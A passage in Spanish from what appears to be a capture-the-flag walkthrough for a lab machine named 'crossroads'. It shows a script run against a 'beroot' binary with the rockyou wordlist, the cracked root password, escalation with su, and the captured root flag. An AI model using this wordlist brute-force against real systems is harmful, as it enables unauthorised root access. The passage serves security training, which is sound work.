 ```python

if __name__ == "__main__":
    brute_force_beroot("rockyou.txt", "./beroot")
```

Lo guardamos y nos pasamos el `rockyou.txt` del `host` a la maquina victima, mediante un servidor de `python3`, una vez que lo hayamos echo ejecutaremos el script de esta forma teniendo el `rockyou.txt` en el mismo directorio.

```shell
chmod +x forceBinary.py
python3 forceBinary.py
```

Info:

```
enter password for root
-----------------------

do ls and find root creds
```

Veremos que hemos encontrado la contraseña despues de un rato, nos comenta que leeamos dicho archivo:

```shell
cat rootcreds
```

Info:

```
root
___drifting___
```

Veremos que la contraseña es `___drifting___` vamos a probarla:

```shell
su root
```

Metemos como contraseña `___drifting___` y veremos que estamos dentro.

Info:

```
root@crossroads:/home/albert# whoami
root
```

Por lo que vamos a leer la `flag` del usuario `root`.

> root.txt

```
876F96716C3606B09A89F0FA3C1D52EB
```
